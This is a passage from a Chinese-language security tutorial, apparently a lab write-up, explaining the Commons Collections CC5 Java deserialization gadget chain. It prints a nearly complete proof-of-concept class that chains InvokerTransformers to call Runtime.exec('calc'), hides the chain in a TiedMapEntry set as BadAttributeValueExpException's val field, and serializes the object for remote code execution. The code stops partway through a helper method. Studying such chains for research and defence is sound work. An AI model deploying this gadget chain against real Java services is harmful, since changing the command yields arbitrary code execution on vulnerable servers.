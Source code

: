 简单一句话，通过构造函数传入 `TiedMapEntry` 会在我们本地进行一次 `RCE` ，之后 `val` 值就会改变，导致目标服务端在反序列化时无法触发 `RCE` 。

## 2.6 完整的 CC5 Gadget POC

最终构造的 CC5 POC 如下：

📕 CC5_1.java

```java
package org.vulhub.deserializeDemo;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC5_1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                // 传入Runtime类
                new ConstantTransformer(Runtime.class),
                // 使用Runtime.class.getMethod()反射调用Runtime.getRuntime()
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                // invoke()调用Runtime.class.getMethod("getRuntime").invoke(null)
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                // 调用exec("calc")
                new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"calc"})
        };
        Transformer chain = new ChainedTransformer(transformers);
//        chain.transform(null);
        HashMap hashMap = new HashMap();
        Map lazymap = LazyMap.decorate(hashMap, chain);
//        lazymap.get("test");	//执行这个就会弹出计算器  lazymap.get() -> InvokerTransformer.transform()
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "key");
//        tiedMapEntry.toString();	// TiedMapEntry.toString -> TiedMapEntry.getValue() -> lazymap.get() -> InvokerTransformer.transform()


        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field field = badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry); // badAttributeValueExpException.readObject -> TiedMapEntry.toString -> TiedMapEntry.getValue() -> lazymap.get() -> InvokerTransformer.transform()

        // 序列化
        serialize(badAttributeValueExpException);
        // 反序列化
        unserialize("ser_CC5_1.bin");
    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ser_CC5_1.bin");
```